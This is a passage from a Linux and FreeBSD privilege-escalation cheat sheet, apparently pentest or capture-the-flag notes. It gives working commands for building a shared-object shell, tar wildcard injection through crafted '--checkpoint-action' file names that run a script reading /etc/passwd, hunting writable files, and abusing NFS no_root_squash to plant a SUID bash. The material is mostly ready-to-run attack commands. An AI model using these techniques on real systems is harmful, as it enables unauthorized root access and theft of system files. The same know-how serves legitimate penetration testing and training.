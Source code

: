 ```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

Take note that for freeBSD, the sudo command is known as doas.

#### Doas:

```bash
cat /etc/doas.conf
```

#### Wildcards:&#x20;

Generally, wildcards are vulnerable. We can trick root by doing some unique commands:

```bash
# create file for exploitation
touch -- "--checkpoint=1"
touch -- "--checkpoint-action=exec=sh shell.sh"
echo "#\!/bin/bash\ncat /etc/passwd > /tmp/flag\nchmod 777 /tmp/flag" > shell.sh

# vulnerable script
tar cf archive.tar *
```

#### Writable files:

```bash
find / -writable ! -user `whoami` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null
find / -perm -2 -type f 2>/dev/null
find / ! -path "*/proc/*" -perm -2 -type f -print 2>/dev/null
```

#### NFS Root Squashing:

```bash
cat /etc/exports
```

if no\_root\_squash appears, we can do this:

```bash
# remote check the name of the folder
showmount -e 10.10.10.10

# create dir
mkdir /tmp/nfsdir  

# mount directory 
mount -t nfs 10.10.10.10:/shared /tmp/nfsdir    
cd /tmp/nfsdir

# copy wanted shell 
cp /bin/bash . 	

# set suid permission
chmod +s bash 	
```
